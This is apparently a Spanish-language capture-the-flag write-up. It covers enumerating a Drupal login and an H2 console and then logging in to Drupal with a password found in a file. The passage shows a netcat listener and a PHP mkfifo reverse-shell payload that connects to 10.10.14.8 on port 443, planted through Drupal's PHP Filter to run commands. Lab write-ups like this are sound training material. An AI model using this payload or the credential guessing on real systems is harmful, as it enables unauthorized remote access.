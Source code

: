 
### Analizamos el Portal {-}

Hablando de portal, pensamos en la web. Nmap nos dio 2 puertos donde el servicio es http. el **80** y el **8082**
Con firefox navegamos en la web para ver lo que es. 

- El puerto 80 es el login de la aplicacion drupal
- El puerto 8082 es un H2 Console con una regla **remote connections ('webAllowOthers') are disabled**

Aqui ya pensamos en tecnicas de port forwarding para el puerto 8082 y savemos que tenemos que ir a por el puerto 80.

En el login del puerto 80 intentamos

- admin:admin
- admin:password
- admin:PencilKeyboardScanner123

Y la contraseña que hemos encontrado en el contenido del fichero 
```bash
 drupal.txt 
```
 funciona.



## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por Druppal {-}

Para ejecutar comandos o mejor dicho, para ganar accesso al sistema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter


![drual-hfilter](/assets/images/drupal-phpfilter.png) 
1. Crear un nuevo contenido

    ```{r, echo = FALSE, fig.cap="Drupal - Nuevo articulo", out.width="90%"}
    knitr::include_graphics("images/drupal-new-article.png")

![drual-ew-article](/assets/images/drupal-new-article.png) 
    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview

